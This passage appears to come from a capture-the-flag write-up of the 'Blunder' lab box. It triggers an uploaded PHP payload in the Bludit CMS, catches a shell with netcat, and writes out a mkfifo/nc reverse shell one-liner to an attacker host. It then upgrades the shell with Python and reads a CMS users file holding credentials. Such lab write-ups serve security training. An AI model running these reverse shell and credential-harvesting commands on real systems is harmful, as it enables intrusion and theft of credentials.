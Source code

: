 Finally, we activate our payload by curling it. Remember to start a handler.

`$ curl http://10.10.10.191/bl-content/tmp/temp/evil.png`

We got a shell!

```
$ sudo rlwrap nc -nvlp 53
listening on [any] 53 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.10.191] 46376
whoami                 
www-data                  
```

## Upgrading Our Shell

To upgrade our shell, we need to create another reverse shell with netcat, before uprading it with python.

In the php reverse shell:

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
```

In the new netcat reverse shell:

```
$ sudo rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.191] 37518
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ 
```

## Locating and Cracking Credentials

If an initial compromise is obtained via the web server, it's a good idea to check for any hardcoded credentials in the configuration files of the website. For instance, it's common to find SQL login credentials. But since Bludit is a flat file CMS that does not use databases like SQL, we might find similar information in JSON format.

Indeed, under the databases directory, we find some credentials in the `users.php` file.

```
www-data@blunder:/var/www$ cat ./bludit-3.10.0a/bl-content/databases/users.php
```

![hugo credentials](images/blunder/hugo.png)
